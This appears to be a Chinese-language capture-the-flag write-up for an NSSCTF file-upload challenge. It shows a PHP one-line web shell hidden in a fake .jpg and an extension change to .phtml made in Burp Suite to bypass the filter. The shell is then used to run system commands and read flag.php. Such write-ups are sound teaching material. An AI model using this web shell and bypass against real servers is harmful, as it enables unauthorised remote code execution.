







# nssctf [SWPUCTF 2021 新生赛]easyupload2.0 wp



上传文件，先扫下：



有 .git 泄漏。可以尝试 GitHack:  


index.php:
``` php
<?php $link = mysql_connect('localhost', 'root'); ?>
<html>
<head>
	<title>Hello world!</title>
	<style>
	body {
		background-color: white;
		text-align: center;
		padding: 50px;
		font-family: "Open Sans","Helvetica Neue",Helvetica,Arial,sans-serif;
	}

	#logo {
		margin-bottom: 40px;
	}
	</style>
</head>
<body>
	
	<h1><?php echo "Hello world!"; ?></h1>
	<?php if(!$link) { ?>
		<h2>Can't connect to local MySQL Server!</h2>
	<?php } else { ?>
		<h2>MySQL Server version: <?php echo mysql_get_server_info(); ?></h2>
	<?php } ?>
</body>
</html>
```

看起来没有什么。  
可以试试一句话木马：  
``` php
jpg
<?php @eval($_POST['attack']);?>
```

这一段保存为 2.jpg。  
用 burpsuite 代理抓包，在上传的时候将其改成 2.phtml 注入木马。  
```
------WebKitFormBoundaryQqeRtf4gikNiBXvF
Content-Disposition: form-data; name="uploaded"; filename="2.jpg"
Content-Type: image/jpeg
```

2.jpg 改成 2.phtml:



上传。  

```
./upload/2.phtml succesfully uploaded!
```

在 burpsuite 进入该地址。  
同时代理:



右键选择 Change request method 修改为 POST 请求。  



ctrl+r 发送到 repeater 。  



换一行输入:
```python
attack=system("ls");
```

然后再 `ls ..` 看看:  
```
jpg
flag.php
index.php
upload
upload.php

```

发现 flag.php  
`cat ../flag.php` 看看：




拿到 flag！  
